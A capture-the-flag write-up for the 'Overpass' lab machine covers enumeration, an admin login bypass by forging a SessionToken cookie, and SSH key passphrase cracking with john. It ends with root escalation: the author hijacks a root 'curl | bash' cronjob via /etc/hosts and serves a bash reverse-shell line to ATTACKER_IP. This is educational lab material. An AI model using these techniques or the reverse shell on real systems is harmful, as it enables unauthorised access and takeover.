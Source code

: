 ```yaml
---
title: "Overpass"
tags:
  - Easy
  - Linux
  - nmap
  - john
---
```


| Difficulty |
| ---------- |
|    Easy    |

---

First, I ran an `nmap` scan to enumerate the services that are running on the target machine. The command used is:

```
sudo nmap -sC -sV -vv -oN nmap_initial 10.10.138.135
```

 **Results:**

![screenshot1](../assets/images/overpass/screenshot1.png)

From the results, we can see that there are two open ports on the machine: **SSH** and **HTTP**.

Navigating to the HTTP webserver, I can see the following page:

![screenshot2](../assets/images/overpass/screenshot2.png)

Before carrying out a happy-path enumeration, I shall use `gobuster` to see if I can enumerate any hidden directories. The command used is as such:

```
gobuster dir -u http://10.10.138.135/ -x php,js,txt -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Note that I made sure to check for common extensions such as .php in my directory enumeration.

With Gobuster up and running, I can then begin to explore the page.

The first thing I did was to check the source code of the home page. Doing so, I noticed an interesting comment that was left behind by one of the web developers:

![screenshot3](../assets/images/overpass/screenshot3.png)

This seems to imply that their 'military grade cryptography' is actually one that was used by Romans. Furthermore, it doesn't seem to be very secure by the looks of it.

Could it be the **Caesar Cipher**? I will keep this in mind for now!

Next, on the **Downloads** page, there are some files that we can download. Interestingly, they actually provide the **source code** for their password manager! I made sure to download it, as well as the **Build Script** and the **Precompiled Linux Binary**.

![screenshot4](../assets/images/overpass/screenshot4.png)

Before looking at those files, let me check on the results of Gobuster:

![screenshot5](../assets/images/overpass/screenshot5.png)

Nice, Gobuster managed to find an **admin login page**:

![screenshot6](../assets/images/overpass/screenshot6.png)

I tried some basic SQL injections but they did not work. However, I realized that the login functionality was actually exposed in the **login.js** file that was enumerated. 

![screenshot7](../assets/images/overpass/screenshot7.png)

Looking more closely at the `login()` function, it seems that the credentials that are inputted at the login screen are sent in a POST request to an endpoint **'/api/login'**. The response is then received and the data inside is stored in a variable **statusOrCookie**. There is then a check to verify whether the user is authenticated or not. However, looking at the **else** statement which authenticates the user, if we simply create a **SessionToken** cookie and set any random value,  we will be redirected to the **/admin** page.

Let's test this out in the **developer tools > Storage**. In there, I created a cookie called SessionToken and assigned a value to it.

![screenshot8](../assets/images/overpass/screenshot8.png)

Upon refreshing the page, we can see that I have gained access into the administrator panel.

![screenshot9](../assets/images/overpass/screenshot9.png)

We have an RSA private key, which will probably be used to log into the ssh server that is also running on the machine. The username that uses this key could also be **james**, as he is mentioned explicitly in the message.

Let's copy this private key and try to ssh into the machine.

![screenshot10](../assets/images/overpass/screenshot10.png)

Unfortunately we need to find out the **passphrase** for the RSA key. We can try a dictionary attack using **John the Ripper**, which is a password cracking tool. First, we need to convert the RSA key into a hash that can be cracked by `john`. To do so, we use an auxiliary tool called `ssh2john`. This can be done with the following command:

```
python /usr/share/john/ssh2john.py key_rsa > key_rsa.hash 
```

Now, we can use `john` with the rockyou.txt wordlist and try to crack the passphrase:

```
john --wordlist=/usr/share/wordlists/rockyou.txt key_rsa.hash
```

**Results**

![screenshot11](../assets/images/overpass/screenshot11.png)

Nice! james's private key passphrase is **james13**. Now we can log into the ssh server.

![screenshot12](../assets/images/overpass/screenshot12.png)

Now that we're logged in, we can obtain the user flag from the **home** directory of **james**.

---

Next, let's find a way to escalate our privileges. 

First, I checked out the **todo.txt** file located in the home directory of james.

![screenshot13](../assets/images/overpass/screenshot13.png)

Nice, looks like james's password is stored in the password manager that he implemented. I used the `find` command to located the overpass binary on the target machine.

```
find / -name overpass 2>/dev/null
```

The binary was found in **/usr/bin/overpass**.

I executed the binary and managed to obtain james's password by retrieving all of the saved passwords:

![screenshot14](../assets/images/overpass/screenshot14.png)

james password is **saydrawnlyingpicture**

Next, I'll try and see what **sudo privileges** james has on this machine.

![screenshot15](../assets/images/overpass/screenshot15.png)

Uh oh, looks like james does not have any sudo privileges at all. I will have to try another path of privilege escalation.

To automate the process, I'll be using [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), which is a privilege escalation automation script. After running the script, LinPEAS managed to automate a high potential PE vector.

![screenshot16](../assets/images/overpass/screenshot16.png)

The `* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash` refers to a **cronjob**, which generally has the following format:

![screenshot17](../assets/images/overpass/screenshot17.png)

Essentially, the `*` symbols dictate the frequency of the cronjob. If the user to execute the command/binary is to be set, then their name will be placed right after the symbols. Then, the command to run during each interval will be placed after that. In the case of the example above, the `rm /home/someuser/tmp/*` command will run **every minute** (as shown by 5 * symbols)

How about the cronjob that was found by LinPEAS?

![screenshot18](../assets/images/overpass/screenshot18.png)

This cronjob curls a **buildscript.sh** file from **overpass.thm/downloads/src**  every minute and executes it as it pipes it over to bash. The important thing to note is that this command is **executed as root**. We can exploit this vulnerability by creating our own bashscript.sh which sets up a **reverse shell** that connects back to our host machine. Since our buildscript.sh is piped over to bash and executed as root, the reverse shell that we obtain will be root as well.

Let's set this up!

First, I needed to know what ip address **overpass.thm** points to. Looking at the **/etc/hosts** file on the target machine, we can actually see that overpass.thm points to localhost:

![screenshot19](../assets/images/overpass/screenshot19.png)

I changed the IP address associated with this domain to my own IP address. Now, every time a request is made to overpass.thm, the target machine will check the /etc/hosts file and direct the request to my machine instead.

Next, I created a bash script called **buildscript.sh** with the following command inside:

```
bash -i >& /dev/tcp/ATTACKER_IP/8080 0>&1
```

This is a basic reverse shell command that makes a connection back to port 8080 of my localhost.

Next, I placed this script inside a **/downloads/src** directory within my machine. I then started up a simple http server on **port 80** using python.

Finally, I also set up a netcat listener on port 8080 using the command:

```
nc -lvnp 8080
```

Hence, once a minute passes, the target machine will curl my created **buildscript.sh** and execute it as root, setting up a reverse shell which my netcat listener is currently listening out for.

![screenshot20](../assets/images/overpass/screenshot20.png)

After a minute has passed, we can see that my buildscript.sh was indeed downloaded by the target machine.

![screenshot21](../assets/images/overpass/screenshot21.png)

And with that, I have gained access to the target machine as **root**.

We can then obtain the root flag found in **/root**.

